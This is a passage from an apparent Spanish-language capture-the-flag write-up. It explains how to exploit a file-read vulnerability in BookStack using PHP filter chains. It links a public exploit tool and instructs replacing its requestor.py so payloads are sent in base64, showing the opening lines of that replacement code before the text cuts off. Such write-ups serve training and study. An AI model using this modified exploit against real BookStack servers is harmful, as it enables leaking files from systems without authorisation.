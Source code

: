 ![paste](./images/python.jpeg)

Bien como sabemos BookSatck tiene una vulnerabilidad la cual a través de php chains podemos leer archivos de la maquina, en GitHub podemos encontrar el exploit pero 

[GitHub - pwnter/php_filter_chains_oracle_exploit: A CLI to exploit parameters vulnerable to PHP filter chain error based oracle.](https://github.com/pwnter/php_filter_chains_oracle_exploit)

ATENCION DEBEMOS MODIFICARLO para que el pyload lo mande en base64, ya que de otra manera no funcionara, para hacer esto busca el archivo de requestor.py dentro de la ruta `php_filter_chains_oracle_exploit/filters_chain_oracle/core`

![paste](./images/11.jpeg)

Y remplázalo por el siguiente 

```python
import json
import requests
import time
from filters_chain_oracle.core.verb import Verb
from filters_chain_oracle.core.utils import merge_dicts
import re
 
"""
Class Requestor, defines all the request logic.
"""
 
 
class Requestor:
    def __init__(self, file_to_leak, target, parameter, data="{}", headers="{}", verb=Verb.POST, in_chain="",
                 proxy=None, time_based_attack=False, delay=0.0, json_input=False, match=False):
        self.file_to_leak = file_to_leak
        self.target = target
        self.parameter = parameter
        self.headers = headers
        self.verb = verb
        self.json_input = json_input
        self.match = match
        print("[*] The following URL is targeted : {}".format(self.target))
```